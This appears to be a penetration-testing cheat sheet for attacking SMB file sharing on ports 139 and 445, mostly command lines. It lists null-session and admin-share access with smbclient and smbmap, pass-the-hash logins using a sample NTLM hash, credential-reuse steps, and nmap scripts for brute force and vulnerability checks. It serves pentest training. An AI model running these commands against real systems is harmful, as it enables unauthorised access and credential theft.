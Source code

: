 # SMB (Server Message Block): Port Number -- 139,445
SMB SMB (Server Message Block) is one of the most important port and this protocol is designed to share files. In SMB, authentication is required to access resources or files. Basically SMB runs on default port number 139 or 445. Strong password should be used by the admin on their important resources so that it cannot be easily guessable. 
SMB has been used primarily to connect Windows computers, although most other systems -- such as Linux and macOS -- also include client components for connecting to SMB resources.
### SMB Versions
```
    CIFS: The old version of SMB, which was included in Microsoft Windows NT 4.0 in 1996.
    SMB 1.0 / SMB1: The version used in Windows 2000, Windows XP, Windows Server 2003 and Windows Server 2003 R2.
    SMB 2.0 / SMB2: This version used in Windows Vista and Windows Server 2008.
    SMB 2.1 / SMB2.1: This version used in Windows 7 and Windows Server 2008 R2.
    SMB 3.0 / SMB3: This version used in Windows 8 and Windows Server 2012.
    SMB 3.02 / SMB3: This version used in Windows 8.1 and Windows Server 2012 R2.
    SMB 3.1: This version used in Windows Server 2016 and Windows 10.
```
#### Step to follow in this attack

```
1.Find the null session

2.if null session is not there than find the user

3.User id password 

4.Always focous on the extenction on the file

5.Try the wordpress user_name password for FTP SMB   

6. Use hash password to login with smb
```

## SMB CLIENT TOOLS:

#### SMBCLIETN
```
# smbclient -L //192.168.1.41		- Null session

# smbclient -L //192.168.1.41/data -U

	smb:\>?

	smb:\> cd /tmp/

	smb:\> get phpinfo.php

	smb:\> mget *.exe

	smb:\> cd dir1

	smb:\dir1\> pwd 

	smb:\dir1\> put phpinfo.php 

	smb:\dir1\> mput *.exe

	smb:\dir1\> mkdir a


# smbclient -L //192.168.1.41/ADMIN$ -U "administrator"

# smbclient -L //192.168.1.41/E$ -U "administrator"

# smbclient -U 'administrator%password' \\\\192.168.1.41\\C$ 

# smbclient -U 'administrator%password' //192.168.1.41/C$

# smbclient //192.168.1.41/C$ -U administrator --pw-nt-hash 8846F7EAEE8FB117AD06BDD830B7586C    	    - pass the hash

# smbclient -U 'administrator%password' //192.168.1.41/C$ --option='client min protocol=NT1'	   - Use when we get protocol error

```
#### SMBMAP

```
# smbmap -H 192.168.1.140

# smbmap -H 192.168.1.140 -u administrator -p 123

# smbmap -H 192.168.1.140 -u DoesNotExist							- User is not exist

# smbmap -H 192.168.1.140 -u administrator -p 123 -R					- Recurssive directory search

# smbmap --help

# smbmap -H 192.168.1.140 -u administrator -p 123 -R data					- Recurssive directory search

# smbmap -H 192.168.1.140 -L

# smbmap -H 192.168.1.140 -u administrator -p 123 -s data					- share 

# smbmap -H 192.168.1.140 -u administrator -p 123 -P 445					- Define Port

# smbmap -H 192.168.1.140 -u administrator -p 'LM_hash:NTLM_hash'

> LM_hash	- aad3b435b51404eeaad3b435b51404ee (Empty value)

# smbmap -H 192.168.1.140 -u administrator -p 'aad3b435b51404eeaad3b435b51404ee:8846F7EAEE8FB117AD06BDD830B7586C'
```
### Enumeration Tools:
SMB enumeration provide important information about our target.
#### Nmap
```
# ls /usr/share/nmap/scripts/ | grep smb
		smb2-capabilities.nse
		smb2-security-mode.nse
		smb2-time.nse
		smb2-vuln-uptime.nse
		smb-brute.nse
		smb-double-pulsar-backdoor.nse
		smb-enum-domains.nse
		smb-enum-groups.nse
		smb-enum-processes.nse
		smb-enum-services.nse
		smb-enum-sessions.nse
		smb-enum-shares.nse
		smb-enum-users.nse
		smb-flood.nse
		smb-ls.nse
		smb-mbenum.nse
		smb-os-discovery.nse
		smb-print-text.nse
		smb-protocols.nse
		smb-psexec.nse
		smb-security-mode.nse
		smb-server-stats.nse
		smb-system-info.nse
		smb-vuln-conficker.nse
		smb-vuln-cve2009-3103.nse
		smb-vuln-cve-2017-7494.nse
		smb-vuln-ms06-025.nse
		smb-vuln-ms07-029.nse
		smb-vuln-ms08-067.nse
		smb-vuln-ms10-054.nse
		smb-vuln-ms10-061.nse
		smb-vuln-ms17-010.nse
		smb-vuln-regsvc-dos.nse
		
nmap -v -sV -sT --script=smb-os-discovery.nse -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-system-info.nse -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-enum-shares.nse -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-enum-users.nse -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-enum-domains.nse -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-enum-groups.nse  -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-enum-processes.nse  -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-enum-services.nse  -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-brute.nse  -p 445,139 192.168.129.237

nmap -v -sV -sT --script=smb-ls --script-args 'share=c$,path=\data' -p 445,139 192.168.129.237

```
#### Command to find open SMB shares through nmap
```
 nmap -v --script smb-enum-shares --script-args smbuser=admin,smbpass=admin -p445 192.168.1.0/24
```
### Hostname
 Tools to enumerate hostname
 
```
   # nmblookup -A ip
   # nbtstat -A ip
   # nbtscan ip
